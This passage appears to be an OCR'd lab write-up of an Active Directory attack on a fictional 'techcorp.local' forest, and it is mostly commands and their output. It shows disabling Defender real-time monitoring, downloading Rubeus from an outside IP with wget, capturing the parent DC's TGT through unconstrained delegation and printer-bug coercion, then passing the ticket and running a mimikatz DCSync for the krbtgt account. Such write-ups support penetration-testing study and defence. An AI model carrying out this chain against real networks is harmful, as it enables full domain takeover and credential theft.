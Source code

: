 ```powershell
d-----       11/19/2023  12:52 AM                Administrator
d-----        7/18/2019   9:48 AM                Administrator.US
d-r---        5/25/2019   3:25 AM                Public
```
# 4. Abusing KUD Permissions of Child Domain DC while Coercing the Parent Domain DC to Authenticate to it
- DC are configured for KUD by default. We can abuse this privilege to steal a TGT from the Parent Domain DC account (`techcorp-dc$`) by coercing it to authenticate to the Child Domain DC.
```powershell
PS C:\Auditor> winrs -r:us-dc.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> cd C:\Windows\Tasks
cd C:\Windows\Tasks
PS C:\Windows\Tasks> Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableRealtimeMonitoring $true
PS C:\Windows\Tasks> wget http://192.168.100.57/Rubeus.exe -O Rubeus.exe
wget http://192.168.100.57/Rubeus.exe -O Rubeus.exe
PS C:\Windows\Tasks> .\Rubeus.exe monitor /interval:5 /targetuser:techcorp-dc$ /nowrap
.\Rubeus.exe monitor /interval:5 /targetuser:techcorp-dc$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0

[*] Action: TGT Monitoring
[*] Target user     : techcorp-dc$
[*] Monitoring every 5 seconds for new TGTs
```
- We can now coerce the Parent Domain DC to authenticate to the Child Domain DC, an action that will generate and send to the Child Domain DC a TGT of `techcorp-dc$`.
```powershell
PS C:\Auditor> .\MS-RPRN.exe \\techcorp-dc.techcorp.local \\us-dc.us.techcorp.local
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```
- We can now use the captured TGT to impersonate `techcorp-dc$` and execute a DCSync attack againsta the `TECHCORP-DC`.
```powershell
PS C:\Auditor> .\Rubeus.exe ptt /ticket:doIF...

PS C:\Auditor> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local
[DC] 'techcorp.local' will be the domain
[DC] 'Techcorp-DC.techcorp.local' will be the DC server
[DC] 'techcorp\krbtgt' will be the user account

Object RDN           : krbtgt
```
